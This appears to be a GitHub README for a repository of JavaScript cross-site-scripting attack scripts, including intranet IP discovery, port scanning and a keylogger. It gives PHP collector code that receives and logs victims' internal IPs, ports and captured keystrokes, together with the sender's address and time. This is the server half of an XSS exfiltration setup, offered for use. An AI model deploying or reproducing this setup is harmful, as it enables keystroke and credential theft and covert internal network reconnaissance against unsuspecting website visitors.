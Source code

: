 Js_attack - some .js with xss to attack
===================

Usage example
------------------

1.Get-Intranet-ip.js & Scan-Intranet-port.js Server:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");
    $ip = $_GET['ip'];
    $port = $_GET['port'];
    file_put_contents('./webrtc_ip.txt', $ip.' | '.$port.' | '.$time.' | from '.$from."\r\n", FILE_APPEND);
?>
```

2.keylogger.js Server:
you can make a server to accept ip and port:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");

if(!empty($_GET['c'])) {
	$key = $_GET['c']; 
	file_put_contents('./keylogger.txt', $key.' | '.$time.' | '.$from."\r\n", FILE_APPEND);
}
?>

```

Credit
------
Repo is based on the following projects:

- https://github.com/diafygi/webrtc-ips



